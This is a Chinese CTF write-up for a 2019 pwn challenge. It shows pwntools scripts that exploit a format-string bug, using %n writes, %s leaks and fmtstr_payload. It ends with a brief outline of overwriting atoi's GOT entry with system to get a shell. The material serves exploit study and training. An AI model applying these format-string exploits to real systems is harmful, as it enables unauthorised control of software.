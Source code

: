 # [第五空间2019 决赛]PWN5

![image-20210323205003536](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736082.png)

## 解法一：利用%n的特性修改0x804C044处的值为4

```
from pwn import *
p = process('./pwn')
leak_addr = 0x804C044
p.recvuntil('your name:')
payload1 = p32(leak_addr) + '%10$n'
p.sendline(payload1)
p.recvuntil('your passwd:')
p.sendline(b'4')
p.interactive()
```

## 解法二：利用%s打印出0x804C044处的值(%x,%p同理)

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = remote('node3.buuoj.cn', 25840)
p = process('./pwn')
leak_addr = 0x0804c044
payload = p32(leak_addr) + '%10$s'
p.sendline(payload)
p.recvuntil("Hello,")
p.recv(4)#先要接收4个字节，前四个字节打印的是地址
number = u32(p.recv(4))
p.sendline(str(number))
p.interactive()
```

## 解法三：利用fmstr

fmtstr_payload是pwntools里面的一个工具，用来简化对格式化字符串漏洞的构造工作。

```
fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，例如要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0x804C044处改为随便一个数；
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload
```

### 3.1 利用格式化字符串改写atoi的got地址，将其改为system的地址，配合之后的输入，得到shell。这种方法具有普遍性，也可以改写后面的函数的地址，拿到shell。
